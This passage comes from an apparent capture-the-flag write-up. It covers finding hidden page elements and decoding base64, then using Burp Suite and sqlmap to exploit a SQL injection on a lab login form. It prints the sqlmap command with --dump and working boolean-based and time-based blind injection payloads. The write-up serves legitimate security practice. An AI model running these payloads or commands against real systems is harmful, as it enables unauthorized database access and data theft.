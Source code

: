 Now we have ... a base64 encoded string AGAIN ! So let's decode it : ``DesKel_secret_base``

It seems that we have now a directory of the web server. Let's check it out.
![alt text](https://i.imgur.com/GnDyW2J.png)  

If we look at the source code, we see a flag written in white, so we cannot see it without reading the source code or selecting it to make it appear (Using CTRL + A for exemple).  
![alt text](https://i.imgur.com/IdbMbcb.png)  
![alt text](https://i.imgur.com/7993t0Y.png)  

## Easter 3

If we go to the login page found by dirb, looking at the source code, we see an hidden p tag where we can found the easter number 3.  
![alt text](https://i.imgur.com/PPxeKOo.png)

## Easter 4

On the same login page where we found the Easter 3, I captured the POST request using [Burp Suite](https://portswigger.net/burp) after pressing the 
login button. I saved this request, and after that, I used sqlmap on this request. Sqlmap found that the parameter 'username' is vulnerable to 
boolean-based blind injection and time-based blind injection :  
```
┌──(attacker㉿AttackBox)-[~/Bureau]
└─$ sqlmap -r request.txt --level=5 --risk=3 --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.9#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:04:32 /2022-10-01/

[14:04:32] [INFO] parsing HTTP request from 'request.txt'
[14:04:32] [INFO] testing connection to the target URL
[14:04:32] [INFO] checking if the target is protected by some kind of WAF/IPS
[14:04:32] [INFO] testing if the target URL content is stable
[14:04:33] [INFO] target URL content is stable
[14:04:33] [INFO] testing if POST parameter 'username' is dynamic
...
...
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-6465' OR 6779=6779-- mjCd&password=test&submit=submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test' AND (SELECT 6357 FROM (SELECT(SLEEP(5)))NnRW)-- LhFY&password=test&submit=submit
---

```
